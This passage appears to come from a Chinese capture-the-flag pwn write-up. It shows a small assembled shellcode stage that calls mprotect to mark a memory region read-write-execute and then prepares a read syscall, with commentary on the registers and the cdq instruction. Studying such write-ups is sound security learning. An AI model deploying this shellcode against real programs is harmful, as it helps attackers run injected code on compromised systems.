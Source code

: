 ```bash
shell1=asm('''
    shl edi,12
    mov dx,0x7
    mov ax,10
    syscall
    cdq
    mov esi,edi
    xor edi,edi
    xor eax,eax
    syscall
''')
```

[![](assets/1708654729-b9c418a2956a6c76cde913e5947739c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104451-2f9bf318-d063-1.png)

```bash
先开个权限，这三行就是
rax:a
rdi：0x2333 左移 3 位-->0x2333000
rsi: 0x2333
rdx：7
mprotect(0x2333000,0x2333,7)
```

然后写 read

[![](assets/1708654729-253fceeede92c9e536c6fd802be5c995.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104515-3debbe6c-d063-1.png)  
cdq：把 EDX 的所有位都设成 EAX 最高位的值。也就是说，当 EAX <80000000, EDX 为 00000000；当 EAX >= 80000000，EDX 则为 FFFFFFFF
